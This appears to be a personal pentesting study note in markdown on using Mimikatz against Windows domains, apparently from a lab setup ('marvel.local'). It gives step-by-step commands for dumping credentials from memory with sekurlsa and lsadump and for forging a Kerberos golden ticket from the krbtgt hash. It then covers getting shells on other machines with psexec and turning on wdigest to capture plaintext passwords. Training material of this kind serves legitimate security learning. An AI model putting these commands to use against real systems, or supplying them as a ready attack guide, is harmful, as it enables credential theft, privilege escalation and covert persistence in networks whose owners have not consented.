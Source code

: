 ### What is Mimikatz
Mimikatz is an open-source application that allows users to view and save authentication credentials like Kerberos tickets. Benjamin Delpy continues to lead Mimikatz developments, so the toolset works with the current release of Windows and includes the most up-to-date attacks.

Attackers commonly use Mimikatz to steal credentials and escalate privileges: in most cases, endpoint protection software and anti-virus systems will detect and delete it. Conversely, pentesters use Mimikatz to detect and exploit vulnerabilities in your networks so you can fix them.

![[Pasted image 20210729085522.png]]

Download mimikatz from
https://github.com/gentilkiwi/mimikatz/releases

### Credential Dumping with Mimikatz
First extract the mimikatz zip folder and go to x64 bit through command prompt and run mimikatz

![[Pasted image 20210729091732.png]]

Now for dumping credentials we have to bypass lsass.exe protection and other protection from memory. We can do this by using `privilege` module in mimikatz. Mimikatz can run module in the following syntax
```bash
# Syntax
<module>::<function>

# To bypass memory protection
privilege::debug
```

And after running this we are looking for `20 Ok message`

![[Pasted image 20210729092103.png]]

Now we will dump all the credentials. So for dumping that we will use
```bash
sekurlsa::logonpasswords
```

![[Pasted image 20210729092214.png]]

This will dump every credentials from the computer

![[Pasted image 20210729092306.png]]

**Note** : The wdigest stores password in plaintext. But after windows 8 this feature has been turned off by windows. So if we can't crack the hashes we can turn on wdigest and wait for someone to login and that way we can get the password

Now we can dump sam hashes, but it doesn't work every time
```bash
lsadump::sam
lsadump::sam /patch
```

![[Pasted image 20210729092714.png]]

Now we can dump lsa hashes
```bash
lsadump::lsa /patch
```

![[Pasted image 20210729093751.png]]

### Golden Ticket Attacks
A golden ticket attack allows an attacker to create a Kerberos authentication ticket from a compromised service account, called krbtgt, with the help of Mimikatz.

With the hash of this compromised account and some information about the domain, an attacker can create fraudulent tickets. These tickets appear pre-authorized to perform whatever action the attackers want without any real authentication.

This attack is stealthy and hard to detect, making it appealing to attackers who plan to live inside a domain for some time. 

To do this we will type
```bash
lsadump::lsa /inject /name:krbtgt
```

![[Pasted image 20210729095312.png]]

From there get the domain SID and the krbtgt ntlm hash
Now type the following command
```bash
# Syntax 
kerberos::golden /User:<any fake user> /domain:<domain name> /sid:<domainsid> /krbtgt:<ntlm hash of krbtgt> /id:<rid of user> /ptt #stands for pass the ticket

#Example
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-367914067-2263268643-1128044544 /krbtgt:c90e7ca6f0c9ce5489b90d222c193488 /id:500 /ptt
```

![[Pasted image 20210729095629.png]]

Now type
```bash
misc::cmd
```

This will open a command prompt and you will have all the access to any machine

![[Pasted image 20210729095727.png]]

After this you can get a `psexec` windows binary and get a shell on any machine through the session created by mimikatz

```bash
psexec.exe \\MachineName\Share cmd
```
